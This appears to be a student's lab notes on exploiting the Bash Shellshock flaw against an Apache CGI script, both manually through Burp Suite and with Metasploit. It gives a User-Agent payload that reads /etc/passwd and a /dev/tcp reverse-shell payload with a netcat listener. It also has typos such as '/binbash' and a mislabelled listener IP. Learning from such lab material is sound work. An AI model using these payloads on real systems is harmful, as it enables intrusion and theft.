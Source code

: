 # Exploiting Bash CVE-20214-6271 Vulnerability (Shellshock)

- Shellshock (CVE-2014-6271) is s family of vulnerabilites in the Bash shell (since V1.3) that allow an attacker to execute remote arbitrary commands via Bash, consequently allwing the attacker to obtain remote access to the target system via a reverse shell.
- The Shellshock vulnerability is caused by a vulnerability in Bash, whereby Bash mistakenly executes trailing commands after a series of characters: () {:;};.
- Only affects Linux (not Windows)
- In context of remote exploitation, Apache web servers configured to run CGI scripts or .sh scripts are also vulnerable to this attack.
- CGI (Common Gateway Interface) scripts are used by Apache to execute arbitrary commands on the Linux system, after which the output is displayed to the client.
  
- In order to exploit this vulnerability, we need to locate a input vector or script that allows you to communicate with Bash
- In the context of an Apache web server, we can utilize any legitimate CGI scripts accessible on the web server.
- Whenever a CGI script is executed, the web server will initiate a new process and run the CGI script with bash.
- This vulnerability can be exploited both manually and automatically with the use of an MSF exploit module.

## Demo: Exploiting Bash CVE-2014-6271 Vulnerability (Shellshock)

### Manually

We want to get the target IP:

`ifconfig`

`namp -sV [target IP]`

Port 80, target IP is running a webserver. We can confirm this with the browser. The countdown is done by a CGI script. It executes the gettime.cgi script and we can access it because its in the root [targetip]/cgi.script. We can utilize this as our input vector. We can check if this system is vulnerable to our attack strategy:

`nmap -sV [target IP] --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi"`

Target is vulnerable and exploitable. Foxy Proxy allows to switch between Proxy's. We open BurpSuite and we use the default config:

Proxy -> Intercept ON -> We make a get request for the gettime.cgi script.

We are going to inject the special characters into the user agent http header. Send request to Repeater (rightclick) -> Repeater tab. We can replace the user agent information with our special characters. User Agent: `() { :; }; echo; echo; /binbash -c 'cat /etc/passwd'` To send this request: SEND. So it displays the output of this command in RESPONSE.

Getting reverse shell on target? We can utilize bash to connect to a listener to our kali linux system:

Listens to that port on the target system:

`nc -nvlp 1234`

We open Burpsuite, in REQUEST we replace our old command: `() { :; }; echo; echo; /binbash -c 'bash -i>&/dev/tcp/[target IP]/1234 0>&1'` SEND. we should get a reverse shell on our netcat listener. connection on target should be established:

We are logged in as the deamon@victim-1
`whoami`

enumerate info regarding the distro
`cat /etc/*issue`

gives us the kernel info
`uname -a`

### Automatically

service postgresql start && msfconsole

search shellshock

auxiliary module tells us if the target is vulnerable.

use exploit/multi/http/apache_mod_cgi_bash_env_exec

msf 5 exploit: show options

set rhosts [target IP]

We need to specify the targeturi, which is the path to the cgi script:

set targeturi /gettime.cgi

exploit

successfully obtained meterpreter session on the target.




